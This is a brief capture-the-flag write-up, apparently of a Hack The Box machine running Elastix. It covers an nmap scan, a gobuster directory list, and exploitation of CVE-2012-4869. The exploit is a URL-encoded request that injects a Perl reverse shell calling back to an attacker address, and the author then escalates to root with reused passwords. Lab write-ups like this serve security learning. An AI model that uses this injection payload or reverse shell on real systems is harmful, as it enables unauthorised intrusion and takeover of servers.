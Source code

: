 Started with a nmap scan
```
22/tcp    open  ssh        syn-ack ttl 63 OpenSSH 4.3 (protocol 2.0)
25/tcp    open  smtp       syn-ack ttl 63 Postfix smtpd
80/tcp    open  http       syn-ack ttl 63 Apache httpd 2.2.3
110/tcp   open  pop3       syn-ack ttl 63 Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
143/tcp   open  imap       syn-ack ttl 63 Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
443/tcp   open  ssl/https? syn-ack ttl 63
993/tcp   open  ssl/imap   syn-ack ttl 63 Cyrus imapd
995/tcp   open  pop3       syn-ack ttl 63 Cyrus pop3d
3306/tcp  open  mysql      syn-ack ttl 63 MySQL (unauthorized)
4445/tcp  open  upnotifyp? syn-ack ttl 63
10000/tcp open  http       syn-ack ttl 63 MiniServ 1.570 (Webmin httpd)
```
Going to the webpage on port `80` it redirects to `https` the site on `443` is running `elastix` and we have webmin running on `10000` 
On port `443` I started running  a gobuster scan
```
/images
/help
/themes
/modules
/mail
/admin
/static
/lang
/robots.txt
/libs
```
Was looking for exploits for the webmin but all the ones are from `2012` and this box was made in `2017` and we need login creds which we don't have the `elastix` is vulnerable to `CVE-2012-4869` and looking up this exploit all we have to do is send a request to this url with are ip and port `/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.14.2%3a1337%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A`
and now we have a call back as `asterisk` ran linpeas and took me a while found a bunch of passwords and one of them worked for the root password `............` there is also a LFI we could of exploited to find this password before we even got user access 